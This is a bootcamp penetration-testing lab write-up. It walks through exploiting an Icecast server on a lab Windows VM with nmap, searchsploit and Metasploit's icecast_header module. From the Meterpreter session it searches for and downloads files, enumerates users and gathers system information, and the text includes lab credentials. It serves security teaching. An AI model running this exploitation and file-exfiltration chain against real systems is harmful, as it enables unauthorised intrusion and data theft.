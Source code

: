 # Penetration-Test-Engagement
This activity allowed me to play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
- The CEO claims to have passwords that are long and complex and therefore unhackable.
- I was tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.
- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 
- To begin, start the Icecast server to emulate the CEO's computer. 
- Then log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
- Then click `Start Server`. 
 
#### Scope
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
- Attacking machine: Kali Linux <!--root:toor -->
- Target machine: DVW10 <!--IEUser:Passw0rd!-->

#### Deliverable
Once you complete this assignment, submit your findings in the following document: 

- [Report.docx]( Report.docx)
 
### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:
<!-- Run the Nmap command that performs a service and version scan against the target.-->
      > command: nmap -sV 192.168.0.20
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture1.png)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
  <!-- - Run the SearchSploit commands to show available Icecast exploits.-->
     > command: searchsploit icecast
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture2.png)

3. Now that we know which exploits are available to us, let's start Metasploit: 
<!-- Run the command that starts Metasploit:-->
     > command: msfconsole

4. Search for the Icecast module and load it for use.
<!-- - Run the command to search for the Icecast module: -->
     > command: search icecast
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture3.png)

<!-- - Run the command to use the Icecast module:-->
     > command: use exploit/windows/http/icecast_header
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture4.png)

5. Set the `RHOST` to the target machine. 
<!--   - Run the command that sets the `RHOST`:-->
     > command: set RHOSTS 192.168.0.20
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture5.png)

6. Run the Icecast exploit.
<!--  - Run the command that runs the Icecast exploit.-->
     > command: run
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture6.png)

<!--   - Run the command that performs a search for the `secretfile.txt` on the target -->
     > command: search –f  \*secretfile\*
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture7.png)

 7. You should now have a Meterpreter session open.
   <!-- - Run the command to performs a search for the `recipe.txt` on the target:-->
      > command: search –f  \*recipe\*
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture8.png)

**Bonus**: Run the command that exfiltrates the `recipe*.txt` file:
      > command:  download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture9.png)


8. You can also use Meterpreter's local exploit suggester to find possible exploits.
<!--  - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.-->
      > command:  run post/multi/recon/local_exploit_suggester
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture10.png)

 
#### Bonus
A. Run a Meterpreter post script that enumerates all logged on users.
  > command: run post/windows/gather/enum_logged_on_users
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture11.png)

B. Open a Meterpreter shell and gather system information for the target.
  > command: shell
  > command: ipconfig –all
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture12.png)

C. Run the command that displays the target's computer system information:
   > command: systeminfo
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture13.png)

---
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

